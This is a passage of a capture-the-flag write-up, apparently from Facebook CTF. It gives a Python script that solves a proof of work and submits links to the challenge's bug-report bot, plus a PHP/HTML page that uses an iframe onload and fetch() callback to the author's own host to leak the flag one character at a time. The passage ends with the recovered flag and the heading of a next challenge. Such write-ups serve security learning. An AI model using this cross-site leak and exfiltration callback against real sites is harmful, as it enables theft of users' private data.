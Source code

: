 - Write a script to bruteforce it:

```python
import requests
import hashlib
import re

def POW(target):
    mx = 10 ** 8
    nonce = 0
    while nonce < mx:
        s = str(nonce)
        res = hashlib.md5(s).hexdigest()
        if res.startswith(target):
            print(res)
            return s
        nonce += 1

alphabet = "!-=+~:?0123456789|abcdefghijklmnopqrstuvwxyz<>ABCDEFGHIJKLMNOPQRSTUVWXYZ_"

for i in alphabet:

    cookie = {"session":"286b4d92-cf9d-5d8e-9da2-0d2ce4617ac3", "session":".eJwljgkOwzAMBP_C5oUOkiL2mUA8hKS14ySI32Mg2HJmgPBAYx15PmF_H5du8HgF7CdqXaVwJOG4qj0saBWt6qUPGegmprfD5u6JVKVRXblWbZ74PI16Yl9cR5_CLDciTxJyq3fVE9uMKbpKM13JEpjC3tpAD0jgOvP4n8HW4PsDAIIvzQ.XPJRVA.xJ6roM-pNGsVmS9dS0rJr_BoCpI;"}

    r = requests.get("http://challenges.fbctf.com:8082/report_bugs", cookies=cookie)

    x = re.findall("proof of work for (.*) \(", r.text)
    print(x[0])

    ans = POW(x[0])
    print "ans:" + ans

    r2 = requests.post("http://challenges.fbctf.com:8082/report_bugs", data={"link":"http://kaibro.tw/log.php?1="+i, "pow_sol":ans, "body":"","title":""}, cookies=r.cookies)
    print r2.text
```

And the `log.php` in above script is:

```php
<iframe src="http://challenges.fbctf.com:8082/search?query=fb{cr055_s173_l34<?php echo $_GET[1];?>%}" onload="if(this.contentWindow.length>=1){fetch('http://kaibro.tw/?fb=ok');}">
```

If we found the character, then we will receive the `ok` request message. Then we can try the next character. 

flag: `fb{cr055_s173_l34|<5_4r4_c00ool!!}`


### pdfme

This challenge is very similar to another challenge in DCTF final 2018.
